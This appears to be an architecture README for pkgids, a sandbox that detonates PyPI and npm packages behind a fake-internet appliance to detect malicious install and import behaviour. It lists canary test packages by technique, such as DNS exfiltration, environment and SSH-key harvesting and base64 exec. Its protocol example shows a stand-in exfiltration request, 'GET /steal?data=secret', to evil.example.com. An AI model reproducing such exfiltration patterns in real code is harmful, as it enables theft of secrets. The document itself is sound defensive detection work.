

# pkgids — System Architecture

## Architecture Diagram

The image below shows the full system as implemented and validated.




---

## Component Map

```
pkgids/
├── cli.py                      ← argparse entry-point (fetch / detonate / dataset / validate)
├── fetch.py                    ← PyPI + npm downloader; hash verification; metadata.json
├── sandbox.py                  ← docker run --runtime runsc wrapper; resolv.conf fix; cleanup
├── capture.py                  ← pipeline orchestrator; tcpdump; per-phase attribution
├── validate.py                 ← labeled-CSV harness; confusion matrix; resumable
├── dataset.py                  ← OpenSSF malicious-packages fetcher; GitHub API; cache
├── analyze.py                  ← STUB (future: event analysis)
├── score.py                    ← STUB (future: numeric scoring model)
├── report.py                   ← STUB (future: structured report output)
└── config.py                   ← loads config.toml (paths, sandbox limits, fakeinternet)

infra/
└── fakeinternet/
    ├── Dockerfile              ← python:3.12-slim; no extra packages; runs as root
    └── responder.py            ← DNS server (UDP/53) + TCP catch-all (21,25,80,443,8080)

corpus/
├── canary-http-install/        ← urllib GET in setup.py
├── canary-dns-exfil/           ← base32 subdomain DNS lookup
├── canary-env-harvest/         ← env read + SSH key probe + HTTP beacon
├── canary-subprocess/          ← subprocess → python3 urlopen
├── canary-base64-blob/         ← exec(base64.b64decode(_BLOB))
├── canary-import-callback/     ← callback in __init__.py only (known FN)
├── benign-clean-control/       ← does nothing
└── build_all.sh                ← builds sdists; writes data/corpus_samples.csv

data/
├── benign_samples.csv          ← 10 known-safe packages (pypi + npm)
├── malicious_samples.csv       ← header only; populate from dataset fetch
├── corpus_samples.csv          ← written by build_all.sh
└── validation_results.json     ← written by pkgids validate (gitignored)

Dockerfile.sandbox              ← ubuntu:24.04; python3 + node + npm; user deton
config.toml                     ← all runtime knobs (resource limits, network config)
Makefile                        ← sandbox-image / detonet / fakeinternet-start / demo-fake
```

---

## Data Flow: Single Detonation

```
pkgids detonate pypi six 1.16.0
         │
         ▼
[1] fetch.py
    GET https://pypi.org/pypi/six/1.16.0/json
    Download sdist → artifacts/pypi/six-1.16.0/six-1.16.0.tar.gz
    Verify SHA-256
    Write metadata.json (upload_time, maintainers, files, install_hooks)
         │
         ▼
[2] capture.py: create runs/20240621T120000Z-pypi-six-1.16.0/
         │
         ▼
[3] tcpdump -i br-<detonet-id> -w capture.pcap -q -U   (host, best-effort)
         │
         ▼
[4] INSTALL PHASE
    sandbox.py builds docker command:
      docker run
        --runtime runsc              ← gVisor kernel isolation
        --name pkgids-<uuid12>
        --network detonet            ← internal bridge; no real egress
        --dns 10.200.200.2           ← belt-and-suspenders
        --mount resolv.conf→/etc/resolv.conf (nameserver 10.200.200.2)
        --memory 1g --cpus 1.0 --pids-limit 256
        --user deton
        --mount type=tmpfs,target=/scratch
        --mount artifacts/pypi/six-1.16.0/→/work (readonly)
        pkgids-sandbox:latest
        pip3 install --break-system-packages --no-build-isolation --no-deps /work/six-1.16.0.tar.gz

    While container runs:
      poll docker inspect → detonet IP (e.g. 10.200.200.3)
      capture_log = logs/fakeinternet/10.200.200.3.jsonl

    install_t0 = time.time()  [before run_in_sandbox call]
    install_t1 = time.time()  [after  run_in_sandbox call]

    Read logs/fakeinternet/10.200.200.3.jsonl
    Keep only entries where install_t0 ≤ entry.ts ≤ install_t1
    → install_entries  (empty for benign six; non-empty for malware)
    Write install.json
         │
         ▼
[5] IMPORT PHASE  (fresh container, no package pre-installed)
    docker run ... python3 -c "import six"
    Same timing + filtering → import_entries
    Write import.json
         │
         ▼
[6] tcpdump stop; pcap flushed
         │
         ▼
[7] network.jsonl = install_entries + import_entries
         │
         ▼
[8] run.json:
    {
      "network_activity": {
        "install": len(install_entries) > 0,   ← FALSE for benign six
        "import":  len(import_entries)  > 0
      },
      "phases": { "install": {...}, "import": {...} },
      "outputs": { "install_json": ..., "network_jsonl": ..., "capture_pcap": ... }
    }
```

---

## Fake-Internet Appliance Protocol

```
Detonation container (10.200.200.3)
         │
         │  DNS query: "evil.example.com" (UDP 53)
         ▼
Appliance (10.200.200.2)
  → Parses question name from DNS wire format
  → Responds with A record: 10.200.200.2
  → Logs: {"ts":…, "type":"dns", "src":"10.200.200.3",
            "query":"evil.example.com", "resolved_to":"10.200.200.2"}
         │
         │  TCP connect to 10.200.200.2:80
         │  GET /steal?data=secret HTTP/1.1\r\nHost: evil.example.com\r\n\r\n
         ▼
Appliance:
  → Reads request, extracts Host + request-line
  → Responds: HTTP/1.1 200 OK (empty body)
  → Logs: {"ts":…, "type":"tcp", "src":"…", "dst_port":80,
            "protocol":"http", "host":"evil.example.com",
            "request_line":"GET /steal?data=secret HTTP/1.1"}

For TLS (port 443):
  → Parses ClientHello to extract SNI
  → Drops connection (no TLS handshake)
  → Logs: {"type":"tcp", "dst_port":443, "protocol":"tls", "sni":"evil.example.com"}

All logs go to: logs/fakeinternet/<src_ip>.jsonl
```

---

## gVisor DNS Fix

Under the `runsc` runtime, Docker's embedded resolver at `127.0.0.11` is not functional. Without intervention, all DNS queries from the sandbox container silently fail, and malware that phones home via hostname is not captured.

**Fix (in `sandbox.py` `_write_resolv_conf`):**
```
/tmp/pkgids-resolv-<uuid>.conf  ← written on host, mode 0644
  nameserver 10.200.200.2

docker run ... --mount type=bind,source=<file>,target=/etc/resolv.conf,readonly
```

Every libc/socket DNS call in the container now goes directly to the appliance. The temp file is deleted in the `finally` block after the container exits.

---

## Per-Phase Timestamp Attribution

The appliance log is an append-only JSONL file keyed by the source IP. Because Docker recycles IP addresses across runs, a log file for IP `10.200.200.3` may contain entries from multiple detonations.

**Fix (in `capture.py` `_read_window`):**

```python
install_t0 = time.time()          # immediately before run_in_sandbox()
raw = run_in_sandbox(install_cmd, ...)
install_t1 = time.time()          # immediately after

entries = [e for e in read_jsonl(capture_log)
           if install_t0 <= e["ts"] <= install_t1]
```

Stale entries from previous runs pre-date `t_0` and are excluded. This eliminated a false-positive where `six` was reported as malicious because its detonet IP had previously been used by the demo container that called `evil.example.com`.

---

## Validation Harness

```
data/corpus_samples.csv  or  data/benign_samples.csv
     ecosystem, name, version, expected_label [, technique, artifact_path]
         │
         ▼
validate.py: run_validation()
  for each row not in data/validation_results.json:
    if --local-artifacts:
      artifact_path = row["artifact_path"]   ← skip registry fetch
    else:
      fetch() from registry; 404 → outcome="unavailable"

    capture.run(artifact_path=...) → run.json
    predict(run_summary) → "malicious" | "benign"
    record outcome, predicted, run_dir

  compute_report() → TP / FP / TN / FN / detection_rate / fp_rate
```

Resumable: rows already in `data/validation_results.json` are skipped without re-running.

---

## Containment Layers (Defense-in-Depth)

```
Layer 1 — gVisor (runsc)
  Intercepts all syscalls; the host kernel never sees them directly.
  Cost: ~10–30% slower than runc; acceptable for batch analysis.

Layer 2 — Internal Docker network (detonet)
  iptables FORWARD rules drop all packets leaving the subnet.
  No route to the real internet exists even if gVisor is bypassed.

Layer 3 — Custom resolv.conf
  No DNS queries escape to public resolvers.
  All hostnames resolve to the appliance's IP.

Layer 4 — Fake-internet appliance
  Accepts and logs connections; does not forward them.
  Malware believes it reached the internet; no real damage occurs.

Layer 5 — Non-root execution
  User `deton` cannot write to system paths or bind privileged ports.

Layer 6 — Resource limits
  --memory 1g, --cpus 1.0, --pids-limit 256, timeout 120 s
  Prevents resource exhaustion and protects other workloads on the host.

Layer 7 — Ephemeral containers
  docker rm -f in finally block; state never persists across runs.
  Writable scratch is tmpfs; evaporates on exit.
```
